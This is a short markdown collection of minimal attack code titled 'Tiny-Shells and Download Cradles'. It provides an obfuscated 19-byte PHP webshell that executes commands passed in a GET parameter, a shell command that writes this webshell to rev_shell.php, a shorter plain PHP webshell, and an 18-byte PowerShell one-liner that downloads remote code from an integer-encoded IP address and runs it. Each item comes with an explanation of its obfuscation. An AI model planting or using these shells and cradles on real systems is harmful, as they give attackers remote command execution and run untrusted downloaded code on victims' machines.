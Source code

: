 # Tiny-Shells and Download Cradles

All kinds of tiny shells or download cradles. It's all about minimization.

## PHP - Webshell (19 bytes)

Source: https://gist.github.com/0xSojalSec/5bee09c7035985ddc13fddb16f191075

```php
<?=`{${~"\xa0\xb8\xba\xab"}["\xa0"]}`;
```

in Terminal:
```bash
echo -ne '<?=`{${~\xa0\xb8\xba\xab}[\xa0]}`;' > rev_shell.php
```
This is how the code will be produced, \xa0\xb8\xba\xab will be 
treated as constant therefore no " needed. It is also not copyable
string because of non-ascii characters.
 
 Explanation:
 * ~"\xa0\xb8\xba\xab" <-> "_GET"
 * ${"_GET"}["\xa0"] <-> $_GET["\xa0"]
 * `{$_GET["\xa0"]}` <-> shell_exec($_GET["\xa0"])
 
This is only 5 bytes longer than the shortest PHP shell (using $_GET to smuggle data)! 
``` 
<?=`$_GET[_]`;
```
  
This is a slightly improved idea that I had 2 years ago
https://github.com/terjanq/Flag-Capture/blob/master/MeePwn%202018/omega/README.md#part2

Author: https://gist.github.com/0xSojalSec

## PowerShell - Download Cradle (18 bytes)

Source: https://twitter.com/johnxor2/status/1620365760462991361

```powershell
."iwr"16843009|iex
```

Explanation:
* `iwr` = Invoke Web-Request
* `16843009` = Integer of IP address `1.1.1.1` (convert: https://www.browserling.com/tools/dec-to-ip)
* `|` = pipe the respone to
* `iex` = Invoke-Expression

Author: https://twitter.com/johnxor2
